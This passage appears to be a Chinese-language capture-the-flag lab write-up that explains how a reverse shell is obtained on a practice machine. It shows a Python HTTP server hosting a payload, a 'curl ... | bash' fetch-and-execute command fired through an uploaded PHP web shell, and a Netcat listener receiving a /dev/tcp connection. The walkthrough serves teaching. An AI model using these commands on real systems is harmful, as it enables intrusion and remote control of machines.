 这个命令让 Netcat 在攻击者的 `1337` 端口上安静地等待。一旦目标执行了反向 Shell 命令并发起连接，Netcat 就会接收到这个连接，并将其转换为一个功能完整的命令行通道。

#### 第 3 步：托管并传递 Payload

文档中使用了本地 Python HTTP 服务器来托管 `shell.sh` 文件：

```bash
python3 -m http.server 8000
```

这样，目标机器可以通过 URL `http://10.10.14.32:8000/shell.sh` 访问到这个文件。

#### 第 4 步：在目标上触发执行

这是最关键的一步。利用之前上传的 Web Shell (`shell.php`)，通过一个 URL 请求，让目标机器执行以下命令：

```tex
curl 10.10.14.32:8000/shell.sh | bash
```

- `curl ...`：从攻击者的服务器下载 `shell.sh` 文件的内容。
- `|`：管道符，将 `curl` 命令的输出（即 `shell.sh` 的脚本内容）传递给下一个命令。
- `bash`：执行管道传过来的脚本内容。

**为什么不直接执行反向 Shell 命令？**
有时直接写入长命令在 URL 中很麻烦且容易出错（需要 URL 编码）。先下载脚本再执行是一种更清晰、更可靠的方法。也可以直接使用一行命令，但脚本方式更灵活。

#### 第 5 步：建立连接

当目标机器执行上述命令后，会发生以下流程：

1. 目标机的 Bash 处理 `/dev/tcp/10.10.14.32/1337`。
2. 目标机向 `10.10.14.32:1337` 发起 TCP 连接请求。
3. 正在监听的 Netcat 接受这个连接。
4. **连接建立！** 此时，在攻击者的 Netcat 终端上，会出现 `Ncat: Connection from 10.129.227.248.` 的提示，并且会获得一个 `www-data@three:/var/www/html$` 的命令行提示符。攻击者就可以在这个终端里输入任何系统命令，目标机器都会执行并返回结果。

